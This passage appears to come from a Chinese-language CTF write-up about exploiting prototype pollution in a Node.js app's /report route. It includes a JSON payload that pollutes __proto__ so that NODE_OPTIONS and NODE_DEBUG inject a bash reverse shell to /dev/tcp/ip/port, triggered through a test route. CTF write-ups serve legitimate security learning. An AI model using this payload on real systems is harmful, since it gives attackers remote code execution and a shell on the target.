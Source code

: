 要想有第一个参数而没有第二个参数确实难搞，但污染属性`2`，Object.2就会传递进去



再看看在哪传参

在/report路由下

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001184907533.png)

Reportcache是个对象

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001185054216.png)

`Reportcache[__proto__][key]`==`Object.__proto__.value`

带上身份POST payload

```json
{
"user":"__proto__",
"date":2,
"reportmessage": 
    {
    "shell":"/readflag",
    "env": 
        {
            "NODE_DEBUG": "require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'\");process.exit()//",
        	"NODE_OPTIONS": "--require /proc/self/environ"
        }
    }
}
```

然后请求/VanZY_s_T3st路由触发

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241001173945183.png)

